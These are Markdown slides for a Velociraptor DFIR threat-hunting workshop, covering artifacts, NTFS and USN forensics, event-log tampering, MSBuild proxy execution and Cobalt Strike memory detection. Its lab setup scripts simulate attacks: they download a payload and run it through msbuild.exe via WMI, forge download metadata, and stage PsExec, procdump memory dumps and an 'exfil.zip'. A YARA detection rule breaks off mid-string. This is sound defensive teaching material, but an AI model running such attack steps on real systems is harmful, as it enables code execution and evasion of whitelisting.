<!-- .slide: class="title" -->
# Velociraptor: Digging Deeper…

<div class="inset">

## DFRWS APAC 2022

### Mike Cohen, Digital Paleontologist

</div>


---

<!-- .slide: class="content" -->
## Overview

There is no way we can cover all of the capabilities Velociraptor offers in the time today!

* This workshop will give a taste to how modern threat hunting is done
  at scale
* We will look at some of the common scenarios and attacks and some of
  the modern detection techniques we can employ to find these.
* This workshop will be a "Follow Along" workshop - please try these
  exercises on your own machine!

---

<!-- .slide: class="content" -->
## Prerequisites

In order to follow along with this workshop you will need to use a
windows VM with administrator level access.  You can grab a free VM
from Microsoft

* Please ensure your VM has .NET version 4+ with MSBuild -
dotNetFx40_Full_x86_x64.exe
* You can also get the latest Velociraptor for Windows Binary from the
GitHub releases page
    * https://github.com/Velocidex/velociraptor
* Exercise setup scripts if preferred
    * https://gist.github.com/mgreen27/13174916ccfe5fc02b10be13705b2b58


---


<!-- .slide: class="content small-font" -->

## Additional tools

* Memory injection test tool
    * https://github.com/Velocidex/injector/releases
* SelectMyParent.exe
    * https://blog.didierstevens.com/2009/11/22/quickpost-selectmyparent-or-playing-with-the-windows-process-tree/
* Sysinternal tools
    * https://live.sysinternals.com/procdump64.exe
    * https://live.sysinternals.com/sdelete64.exe
    * https://live.sysinternals.com/psexec64.exe
* NTFS Manipulation
    * https://github.com/jschicht/EaTools/raw/master/EaInject64.exe
    * https://github.com/jschicht/EaTools/raw/master/EaQuery64.exe
* WEP Explorer
    * https://github.com/lallousx86/WinTools/tree/master/WEPExplorer
* Process Hacker
    * https://processhacker.sourceforge.io/downloads.php


---


<!-- .slide: class="content" -->
## What is Velociraptor?
* Velociraptor is a unique Free and Open Source DFIR tool, giving you
  power and flexibility through the Velociraptor Query Language
* VQL is used to drive a powerful set of forensic capabilities:
* Using VQL we can write custom "Artifacts" to identify emerging threats quickly and safely
* Hunt for artifacts at scale over thousands of end points within
  minutes!


---


<!-- .slide: class="full_screen_diagram" -->
## Deployment overview


---


<!-- .slide: class="content" -->
## Typical deployments

* Support Linux, Windows, MacOS, FreeBSD …
* Server simply collects the results of queries - clients do all the heavy lifting.
* Client memory and CPU usage is controlled via throttling and active cancellations.
* Server is optimized for speed and scalability
* Concurrency control ensures stability
* Bandwidth limits ensure network stability

---


<!-- .slide: class="content" -->
## Typical deployments

Current recommendations
* 10k-15k clients - single server with file based data store (usually cloud VM).
* SSL load is the biggest load - TLS offloading helps a lot!
* 8 GB RAM/8 cores is generous towards the top of the range.
* We recommend Ubuntu/Debian server
    * 15-20k to 150k endpoints we recommend a multi-frontend setup.

---

<!-- .slide: class="title" -->

# Velociraptor Installation and GUI tour

---


<!-- .slide: class="content" -->
## Create a local server

* Create a local server on your windows system.
* We will use this server's notebook feature to learn about windows artifacts
* Run Velociraptor on your machine
    * Download Velociraptor from GitHub (.msi or .exe)

```
velociraptor-v0.6.6-2-windows-amd64.exe gui
```

---


<!-- .slide: class="full_screen_diagram" -->

The "gui" command creates an instant temporary server/client with self
  signed SSL and a hard coded admin/password.



---

<!-- .slide: class="full_screen_diagram" -->
## Your Velociraptor is ready to use!


---

<!-- .slide: class="title" -->
# A Velociraptor GUI tour


---

<!-- .slide: class="content" -->

## The Dashboard

* The Dashboard shows the current state of the installation:
    * How many clients are connected
    * Current CPU load and memory footprint on the server.
    * When running hunts or intensive processing, memory and CPU requirements will increase but not too much.
    * You can customize the dashboard - it’s also just an artifact.

---

<!-- .slide: class="full_screen_diagram" -->

## The Dashboard



---

<!-- .slide: class="title" -->

# Interactively investigate individual clients

---


<!-- .slide: class="content" -->
## Searching for a client

To work with a specific client we need to search for it.
Press the **Search** or **Show All** icon to see some clients



---

<!-- .slide: class="content" -->
## Search for clients
### hostname, label, or client ID.
* You can start typing the hostname to auto-complete
* Some common terms:
   * host: hostnames
   * mac: Mac addresses
   * ip: last seen IP address
   * label: Search by labels

---


<!-- .slide: class="content small-font" -->
## Client Overview

* Internally the client id is considered the most accurate source of
endpoint identity



---

<!-- .slide: class="content small-font" -->
## Shell commands

* Velociraptor allows running shell commands on the endpoint using
  Powershell/Cmd/Bash
    * Only Velociraptor users with the administrator role are allowed to
  do this!
    * Actions are logged and audited



Note:

```powershell
Get-LocalGroupMember -Group "Administrators"
```

---


<!-- .slide: class="title" -->
# Interactively fetching files from the endpoint


---

<!-- .slide: class="content small-font" -->
## The VFS View

Remember that the VFS view is simply a server side cache of
information we know about the endpoint - it is usually out of date!



---


<!-- .slide: class="content small-font" -->
## Navigating the interface

* Click the “Refresh this directory” will schedule a directory listing
  artifact and wait for the results (usually very quick if the
  endpoint is online).
* The “Recursively refresh this directory” will schedule a recursive
  refresh - this may take some time! After this operation a lot of the
  VFS will be pre-populated already.
* “Collect from client” will retrieve the file data to the
  server. After which, the floppy disk sign indicates that we have
  file data available and you can click the “Download” link to get a
  copy of the file.


---

<!-- .slide: class="full_screen_diagram" -->
## The VFS interface



---


<!-- .slide: class="title" -->
# Velociraptor Artifacts

## Fast, Efficient, Surgical


---

<!-- .slide: class="content small-font" -->

## Why a query language?
* Able to dynamically adapt to changing requirements - without needing to rebuild clients or servers.
* For example, a new IOC is released for detection of a specific threat
    * Immediately write a VQL artifact for the threat, upload the artifact and hunt everywhere for it.
    * Turn around from IOC to full hunt: A few minutes.
    * Share artifacts with the community
* VQL Artifacts are simply YAML files with VQL queries.
    * Can be easily shared and cross pollinate other Artifacts
    * Can be customized by callers.
    * [Public Artifact Reference](https://docs.velociraptor.app/artifact_references/)


---


<!-- .slide: class="content" -->

## What is VQL?

```sql
SELECT X, Y, Z FROM plugin(arg=1) WHERE X = 1
```

* `X, Y, Z` are called Column Selectors
* `plugin(arg=1)` is termed a VQL Plugin with Args
* `X = 1` is the Filter Condition


---


<!-- .slide: class="content" -->
## Velociraptor artifacts

Velociraptor is just a VQL engine!

* We package VQL queries in Artifacts:
    * YAML files
    * Include human description
    * Package related VQL queries into “Sources”
    * Take parameters for customization
    * Can in turn be used in VQL as well...

---

<!-- .slide: class="content" -->

## What does the VFS view do under the cover?

* Refreshing the VFS simply schedules new artifacts to be collected - it is just a GUI convenience.



---


<!-- .slide: class="content" -->
## Velociraptor uses expert knowledge to find the evidence

A key objective of Velociraptor is encapsulating DFIR knowledge into
the platform, so you don’t need to be a DFIR expert.  We have high
level questions to answer We know where to look for evidence of user /
system activities

We build artifacts to collect and analyze the evidence in order to answer our investigative questions.

---

<!-- .slide: class="full_screen_diagram" -->
## Anatomy of an artifact



---

<!-- .slide: class="content small-font" -->
## Collecting new artifacts

* To collect a new artifact, from the Collected Artifacts screen,
click Collect new artifact and search for it. Select Add to add it to
this collection. When finished simply click Next.


---

<!-- .slide: class="content small-font" -->
## Configuring the artifact collection

* Many artifacts take parameters that can control the way they work.



---


<!-- .slide: class="content small-font" -->
## What do artifacts return?

* All artifacts produce rows since they are just queries.
* Some artifacts also upload files. You can create a download zip to export all the uploaded files.



---


<!-- .slide: class="content small-font" -->
## Uploaded files

* The uploads tab shows the file's location on the server.
* You can download each one individually.



---


<!-- .slide: class="content small-font" -->
## Artifact query logs

* As the query is running on the endpoint any log messages are sent to the server.
* Click the log tab to see if there were any errors and how many rows are expected.



---


<!-- .slide: class="content small-font" -->
## Artifacts return multiple tables (sources)
* `Source Selector`: Viewing the result tab shows the rows sent from
  every artifact and source.



---

<!-- .slide: class="content small-font" -->
## Exporting artifact collections
* Use the GUI to create a zip export of the collection


---

<!-- .slide: class="content" -->
## VQL - Velociraptor's magic sauce

Rather than having specific analysis modules, VQL allows generic capabilities to be combined in novel creative ways
* NTFS/MFT/USN/Glob file system analysis
* File parsers - Grok, Sqlite etc
* Built in powerful parser framework for novel binary parsers


---

<!-- .slide: class="content" -->

## Velociraptor Artifacts
Velociraptor comes with a large number of artifact types
* Client Artifacts run on the endpoint
* Client Event artifacts monitor the endpoint
* Server Artifacts run on the server
* Server Event artifacts monitor for events on the server.

---


<!-- .slide: class="content" -->

## Velociraptor Query Language

Using a query language we can string together different forensic
capabilities to create novel analysis

The Power of Open source!

The [Velociraptor artifact
exchange](https://docs.velociraptor.app/exchange/) is a place for the
community to publish useful VQL artifacts for reuse

---

<!-- .slide: class="full_screen_diagram" -->
## The Artifact Exchange


---

<!-- .slide: class="full_screen_diagram" -->
## Automatically import Exchange


---

<!-- .slide: class="title" -->
# Searching for files
## Let's start at the beginning….

---


<!-- .slide: class="content" -->
## Finding files

DFIR is often about finding files on the endpoint
* Filename is sometimes an indicator
* Word documents in a temp folder may contain macros
* Sometimes we need to filter by file content
* File has signature of malicious macro/script


---


<!-- .slide: class="content" -->
## Windows.Search.FileFinder

<div class="container">
<div class="col">

* Glob based
* Time filters
* Yara for Content

</div>
<div class="col">



</div>
</div>

---


<!-- .slide: class="content" -->
## Exercise

Find all executables in the user's home directory

---


<!-- .slide: class="content" -->
## Automate file collection+parsing

The goal of VQL is to automate as much of the routine DFIR work as possible

* Example: Collect all browser artifacts

---


<!-- .slide: class="content small-font" -->
## Generic.Collectors.SQLECmd

* Use Generic.Collectors.SQLECmd to automatically locate and parse SQLite files.
* SQLECmd is an open source project to document location of SQLite files
used by various programs (like browsers)



---


<!-- .slide: class="content" -->
## Velociraptor's plugins are robust

Handle file reading errors gracefully



---

<!-- .slide: class="content small-font" -->
## Inspect the data with the table widget
* Show or hide columns
    * Export the modified table to CSV or JSON


---

<!-- .slide: class="content small-font" -->
## Inspect the data with the table widget
* Filter or sort using the table widget



---

<!-- .slide: class="content small-font" -->
## Inspect the data with the table widget


---

<!-- .slide: class="title" -->

# Querying the registry


---


<!-- .slide: class="content" -->
## The Windows Registry

* Windows uses the registry to store configuration data.
* Many attackers modify system configuration to achieve persistence
* It is very useful to be able to query the registry!
* Velociraptor has two types of registry accessors:
    * "registry" uses the APIs
    * "raw_reg" parses the registry hives themselves


---


<!-- .slide: class="content" -->
## Example: Disable event logs

* Windows event logs are crucial for detection
* Many detection solutions rely on forwarding event logs to a backend
* It is trivial to enable/disable event log collection
* Let's look at disabling the BITS client events

---


<!-- .slide: class="full_screen_diagram" -->
## What is BITS? Why should we care?


---

<!-- .slide: class="content" -->
## What is BITS?

<div class="container">
<div class="col">

BITS activity is visible in the logs

```text
bitsadmin.exe /transfer
  /download /priority
  foreground https://www.google.com
  c:\Users\test\test.ps1
```

</div>
<div class="col">

</div>
</div>

---

<!-- .slide: class="full_screen_diagram" -->
## Disable event logs


Note:
It is easy to disable log collections - from the GUI or programmatically
Try this yourself - disable the Bits-Client logs, clear the logs and repeat the previous step

---

<!-- .slide: class="content" -->
## Query the registry for event log config

* Disabling the event logs actually results in a configuration change in the registry.
    * The relevant keys are discussed in [Disabled Event Log Files](https://docs.velociraptor.app/blog/2021/2021-01-29-disabled-event-log-files-a3529a08adbe/)
    * We can use `Windows.EventLogs.Modifications` to query log state

---

<!-- .slide: class="content" -->
## We can get a snapshot of all event logs



---

<!-- .slide: class="content" -->
## Being more targeted in collection

<div class="container">
<div class="col">

* Most artifacts have parameters that allow us to be more targeted in
  collection
* Being targeted is good because it reduces the amount of data we
  collect!

</div>
<div class="col">

</div>
</div>

---

<!-- .slide: class="content" -->
## More targeted in collection
* Treat the endpoint as the ultimate source of truth - need more
  data? go back and re-fetch it from the endpoint.


---

<!-- .slide: class="content small-font" -->
## Post processing with notebooks

* Another alternative is to collect all the data and then post-process using the GUI
    * Helps us drill into the data and understand what is going on.


---

<!-- .slide: class="title" -->
# Hunting at scale

---

<!-- .slide: class="content" -->
## Hunting - mass collections

Hunting is Velociraptor's strength - collect the same artifact from thousands of endpoints in minutes!

* Two types of hunts:
   * Detection hunts are very targeted aimed at yes/no answer
   * Collection hunts collect a lot more data and can be used to
     build a baseline.

---

<!-- .slide: class="content" -->
## Exercise - baseline event logs

For this exercise we start a few more clients.

```text
c:\Users\test>cd c:\Users\test\AppData\Local\Temp\

c:\Users\test\AppData\Local\Temp>Velociraptor.exe
   --config client.config.yaml pool_client --number 100
```

This starts 100 virtual clients so we can hunt them
* We use pool clients to simulate load on the server

---


<!-- .slide: class="full_screen_diagram" -->
## Pool clients
Simply multiple instances of the same client


---


<!-- .slide: class="full_screen_diagram" -->
## Create a hunt


---


<!-- .slide: class="full_screen_diagram" -->
## Select hunt artifacts


---


<!-- .slide: class="full_screen_diagram" -->
## Collect results



---


<!-- .slide: class="content" -->
## Exercise - Stacking

* The previous collection may be considered the baseline
* For this exercise we want to create a few different clients.
    * Stop the pool client
    * Disable a log channel
    * Start the pool client with an additional number of clients

```
Velociraptor.exe --config client.config.yaml pool_client --number 110
```

---


<!-- .slide: class="full_screen_diagram" -->
## Stacking can reveal results that stand out



---


<!-- .slide: class="content" -->
## NTFS Overview

* NTFS is the file system in all modern Windows operating systems.
* Feature packed with a design focused on storage optimisation and resilience.
* NTFS implements journalling to record metadata changes to track state and integrity of the file system.
* Allows for recovery after system crashes to avoid data loss
* File System objects referenced in a Master FIle Table (MFT)

---


<!-- .slide: class="content" -->
## New Technology File System

* In NTFS, the Master File Table (MFT) is at the heart of the file
  system. A structured database that stores metadata entries for every
  file and folder.
* Every object gets an entry within the MFT. Each entry is usually
  1024 bytes long.  Contains a series of attributes that fully
  describe the object.

---

<!-- .slide: class="content" -->

## MFT entries contain attributes

<div class="container small-font">
<div class="col">

## File entry examples
* $STANDARD_INFORMATION
* $FILE_NAME (Windows long name)
* $FILE_NAME (short name)
* $DATA
* $DATA  (alternate data stream sometimes)

</div>
<div class="col">

## Folder entry examples
* $STANDARD_INFORMATION
* $FILE_NAME (Windows long name)
* $FILE_NAME (short name)
* $INDEX_ROOT
* $INDEX_ALLOCATION (sometimes)

</div>

---


<!-- .slide: class="content" -->
## Finding suspicious files

* Common DFIR use case is finding files
    * File name
    * Path
    * File type
    * Content
* Velociraptor plugins
    * glob
    * parse_mft
    * yara
    * other content based plugins


---


<!-- .slide: class="content" -->
## Windows.Forensics. FilenameSearch

* Apply yara on the MFT
    * fast yara
    * simple string based
    * filename / top level folder only
    * comma separated
* Crude and less control
* Verbose results


---

<!-- .slide: class="content" -->
## Windows.NTFS.MFT

<div class="container small-font">
<div class="col">

* Parses MFT
* Easy to use
* Filters
    * Path
    * File name
    * Drive
    * Time bounds
    * Size
* Performance optimised

</div>
<div class="col">


</div>
</div>

---


<!-- .slide: class="content" -->
## Exercise - Generate test data

To automatically prep your machine run this script:
```powershell
### NTFS exercise setup

## 1. download some files to test various content and add ADS to simulate manual download from a browser

$downloads = (
    "https://live.sysinternals.com/PsExec64.exe",
    "https://live.sysinternals.com/procdump64.exe",
    "https://live.sysinternals.com/sdelete64.exe",
)

foreach ( $url in $downloads){
    "Downloading " + $Url
    $file = Split-Path $Url -Leaf
    $dest = "C:\PerfLogs\" +$file
    $ads =  "[ZoneTransfer]`r`nZoneId=3`r`nReferrerUrl=https://18.220.58.123/yolo/`r`nHostUrl=https://18.220.58.123/yolo/" + $file + "`r`n"

    Remove-Item -Path $dest -force -ErrorAction SilentlyContinue
    Invoke-WebRequest -Uri $Url -OutFile $dest -UseBasicParsing
    Set-Content -Path $dest":Zone.Identifier" $ads
}
```

Note:

* Download and copy to staging folder C:\PerfLogs\
    * https://live.sysinternals.com/procdump64.exe
    * https://live.sysinternals.com/sdelete64.exe
    * https://live.sysinternals.com/psexec64.exe
* Add ADS to simulate Mark of the Web


Create a PS1 file in staging folder (any text will do but this is powershell extension)
echo "Write-Host ‘this is totally a resident file’" > C:\Perflogs\test.ps1
Modify shortname on a file
fsutil file setshortname C:\PerfLogs\psexec64.exe fake.exe
Create a process dump
Open calculator (calc.exe)
C:\PerfLogs\procdump64.exe -accepteula -ma win32calc C:\PerfLogs\calc.dmp
Create a zip file in staging folder
open C:\Perflogs in Explorer
highlight and select: Send to > Compressed (zipped) folder.
Delete dmp,zip and ps1 files - deleted file discovery is important for later!
Remove-Item -Path C:\PerfLogs\*.zip, C:\PerfLogs\*.dmp, C:\PerfLogs\*.ps1

---


<!-- .slide: class="content" -->
## More setup

```powershell
## 2.Create a PS1 file in staging folder (any text will do but this is powershell extension)
echo "Write-Host ‘this is totally a resident file’" > C:\Perflogs\test.ps1

## 3.Modify shortname on a file
fsutil file setshortname C:\PerfLogs\psexec64.exe fake.exe

## 4. Create a process dumpOpen calculator (calc.exe)
calc.exe ; start-sleep 2
C:\PerfLogs\procdump64.exe -accepteula -ma win32calc C:\PerfLogs\calc.dmp
get-process | where-object { $_.Name -like "*win32calc*" } | Stop-Process

## 5. Create a zip file in staging folder
Compress-Archive -Path C:\PerfLogs\* -DestinationPath C:\PerfLogs\exfil.zip -CompressionLevel Fastest

## 6. Delete dmp,zip and ps1 files - deleted file discovery is important for later!
Remove-Item -Path C:\PerfLogs\*.zip, C:\PerfLogs\*.dmp, C:\PerfLogs\*.ps1
```

---


<!-- .slide: class="content" -->
## Exercise

<div class="container small-font">
<div class="col">

* Find contents of C:\Perflogs
* Review metadata of objects
* Explore leveraging filters
    * to target specific files or file types
    * to find files limited to a timeframe

* Can you find the deleted files?
    * You may get lucky and have an unallocated file show.
    * Try `Windows.Forensics.Usn` with filters looking for suspicious
      extensions in our staging location!

</div>
<div class="col">
  
</div>
</div>

---


<!-- .slide: class="content" -->
## Exercise - UsnJ solution

<div class="container small-font">
<div class="col">

Target C:\PerfLogs with PathRegex field.


* typically USN journal only records filename and MFTId and
  ParentMFTId record. Velociraptor automatically parses our
  expected path so the user can filter on path.
* This artifact uses FullPath results with “/”.

</div>
<div class="col">
  
</div>
</div>

---

<!-- .slide: class="full_screen_diagram" -->
## Exercise - UsnJ solution

* There are many entries even for a simple file action like download to disk.


---


<!-- .slide: class="content" -->
## Exercise - UsnJ solution

<div class="small-font">

* But these are simple to detect when you know what to look for!

<div class="container">
<div class="col">



</div>
<div class="col">



</div>
</div>
</div>

---

<!-- .slide: class="content" -->
## Advanced NTFS: Alternate Data Stream

<div class="container small-font">
<div class="col">

* Most browsers attach an ADS to files downloaded from the internet.
* Use the VFS viewer to view the ADS of downloaded files.
* Use ADS Hunter to discover more interesting ADS
* Use `Windows.Analysis. EvidenceOfDownload` to identify downloaded
  files and unpacked ZIP files.

</div>
<div class="col">


</div>
</div>

Note:
 The inset shows typical frequency analysis of ADS naturally occuring

 What is the Wof stuff? https://devblogs.microsoft.com/oldnewthing/20190618-00/?p=102597


---

<!-- .slide: class="content" -->
## Microsoft Build Engine

<div class="small-font">

* T1127.001 - Trusted Developer Utilities Proxy Execution: MSBuild
    * https://attack.mitre.org/techniques/T1127/001/
    * https://lolbas-project.github.io/lolbas/Binaries/Msbuild/
* .NET build feature used to load project files
* C# or Visual Basic code to be inserted into an XML project file.
    * Lateral movement
    * WMI
    * Service Control Manager (SCM)
    * Also observed initial maldoc or persistance
* Common attack framework availability
    * Metasploit module
    * Cobalt Strike aggressor script
    * Many other templates on github
* This is essentially an applocker / whitelisting bypass.

</div>

Note:

Adversaries may use MSBuild to proxy execution of code through a
trusted Windows utility. MSBuild.exe (Microsoft Build Engine) is a
software build platform used by Visual Studio. It handles XML
formatted project files that define requirements for loading and
building various platforms and configurations.[1]

Adversaries can abuse MSBuild to proxy execution of malicious
code. The inline task capability of MSBuild that was introduced in
.NET version 4 allows for C# or Visual Basic code to be inserted into
an XML project file.[1][2] MSBuild will compile and execute the inline
task. MSBuild.exe is a signed Microsoft binary, so when it is used
this way it can execute arbitrary code and bypass application control
defenses that are configured to allow MSBuild.exe execution.[3]

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/evasion/windows/applocker_evasion_msbuild.md
https://github.com/threatexpress/aggressor-scripts/tree/master/wmi_msbuild
https://github.com/Cn33liz/MSBuildShell
https://github.com/3gstudent/msbuild-inline-task


---


<!-- .slide: class="full_screen_diagram" -->
## MSBuild: Cobalt Strike teamserver

Typical Cobalt Strike Lateral Movement


---


<!-- .slide: class="content" -->
## MSBuild: Detection ideas

* Process Telemetry
   * Process chain
   * Command Line
* Disk
* Forensic evidence of execution
   * Prefetch
* Event Logs
   * WMI
   * Service Control
   * Security 5145 - \\*\C$

---


<!-- .slide: class="content" -->
## MSBuild: Disk - template file


---

<!-- .slide: class="content" -->
## MSBuild: Disk - template


---

<!-- .slide: class="content" -->
## Detection ideas

* Velociraptor can deploy Yara easily in combination with many other capabilities.

    * In this case we want to search for template files similar to  previously discussed.
    * Can we find the Cobalt Strike payload?
    * Can we find other artifacts that may indicate compromise?

---

<!-- .slide: class="content" -->
## Detection ideas

<div class="small-font">

* Some yara based detection artifacts include:
    * `Generic.Detection.Yara.Glob` - cross platform glob based file search and yara
    * `Generic.Detection.Yara.Zip` - cross platform archive content search and yara scan
    * `Windows.Detection.Yara.NTFS` - Windows NTFS file search and yara
    * `Windows.Detection.Yara.Process` - Windows process yara scan (default is Cobalt Strike)
    * `Windows.Detection.Yara.PhysicalMemory` - Windows Physical memory yara scan (winpmem)
    * `Linux.Detection.Yara.Process`  - Linux process yara

---

<!-- .slide: class="content" -->
## MSBuild: Exercise description

<div class="over-height">

```yara

rule MSBuild_template {
   meta:
      description = "MSBuild template. Detects MSBuild variable setup and generic template strings."
   strings:
      // Target variables in template
      $s1  = "byte[] key_code = new byte[" ascii
      $s2  = "byte[] buff = new byte[" ascii

      // Target Other strings
      $s8  = "<Code Type=\"Class\" Language=\"cs\">" ascii
      $s9  = "<

```powershell
## MSBuild setup

# 0. If server disable prefetch so we generate prefetch artifacts
 if ( $(Get-CimInstance -Class CIM_OperatingSystem).Caption -like "*Server*" ) {
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /d 3 /f
 reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Prefetcher" /v MaxPrefetchFiles /t REG_DWORD /d 8192 /f
 Enable-MMAgent –OperationAPI -ErrorAction SilentlyContinue
 Start-Service Sysmain -ErrorAction SilentlyContinue
}

# 1. Download payload
$Url = "https://present.velocidex.com/resources/kUgJI.TMP"
$dest = "\\127.0.0.1\C$\Windows\Temp\kUgJI.TMP"

Remove-Item -Path $dest -force -ErrorAction SilentlyContinue
Invoke-WebRequest -Uri $Url -OutFile $dest -UseBasicParsing

# 2. Execute payload
Invoke-WmiMethod -ComputerName 127.0.0.1 -Name Create -Class Win32_PROCESS "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe C:\Windows\Temp\kUgJI.TMP /noconsolelogger"
```

---

<!-- .slide: class="content" -->
## MSBuild Exercise

<div class="container small-font">
<div class="col">

* Detect payload on disk with a hunt for `Generic.Glob.Yara`
    * Add your created yara - [msbuild.yara](/resources/msbuild.yara)
    * Use file size bounds for performance 5MB - 5KB large beacon to small shellcode loader.
    * Target C:\Windows\Temp (or where you dropped the file)
    * Select upload file
* Velociraptor enables post processing on uploaded files.
    * Can you extract the beacon using xor in VQL?
    * We will walk through this one!

</div>
<div class="col">

* `Generic.Glob.Yara` Parameters


</div>
</div>

---

<!-- .slide: class="content" -->
## MSBuild: Evidence of execution - prefetch

<div class="small-font">

* Prefetch is a forensic artifact that is available on Windows workstations.
* designed to increase performance by assisting application pre-loading
* provides evidence of execution
    * name, execution times and execution count
    * Location is `C:\Windows\Prefetch\*.pf`
    * Format is `<Exe name>-<Hash>.pf`
    * Hash calculated based on folder path of executable and the
      command line options of certain programs (e.g., svchost.exe)
    * 1024 prefetch files in Win8+ (only 128 on Win7!)
    * Different formats across OS versions.
    * E.g Win10 prefetch is now compressed

</div>

---

<!-- .slide: class="content" -->
## Windows.Detection. PrefetchHunter

<div class="container small-font">
<div class="col">

* Available on Velociraptor artifact exchange.
* Allows users to hunt for accessed files by process in prefetch.
* Returned rows include
    * accessed file
    * prefetch metadata
    * Best used to hunt for rare process execution.
</div>
<div class="col">


</div>
</div>


---

<!-- .slide: class="title" -->

# Memory artifacts

## Some threats are memory only

---

<!-- .slide: class="content" -->
## Detect Cobalt Strike Beacon

* Run the program inject.exe:
    * This program will inject artificial data from Cobalt Strike
samples into other processes The data is not actually executable but
will trigger a hit for memory scanning because it contains common Yara
patterns.
    * https://github.com/Velocidex/injector/releases
    * Find a host process and provide its PID to the loader.exe

---

<!-- .slide: class="content" -->
## Inject beacon into process

Choose any random process to host our "beacon" sample.
Sample is not actually running


---

<!-- .slide: class="content" -->
## Search for beacon in memory

<div class="container small-font">
<div class="col">

* Use `Windows.Detection. Yara.Process` to search process memory for a
yara signature.
* Can upload process memory dumps for matching processes - these can be
opened with windbg

</div>
<div class="col">


</div>
</div>

---

<!-- .slide: class="full_screen_diagram" -->

## Detecting Cobalt Strike in memory


---

<!-- .slide: class="content" -->
## Decoding Cobalt Strike Config

* It is very important to identify how Cobalt strike is configured when you detect it
* You can block the Cobalt Strike beacon address at the network perimeter
* Deploy Yara rules to identify the configuration itself.
* Cobalt Strike Config is heavily obfuscated in memory
* Velociraptor can parse memory structures in VQL

---

<!-- .slide: class="content" -->
## Extract configuration data from memory


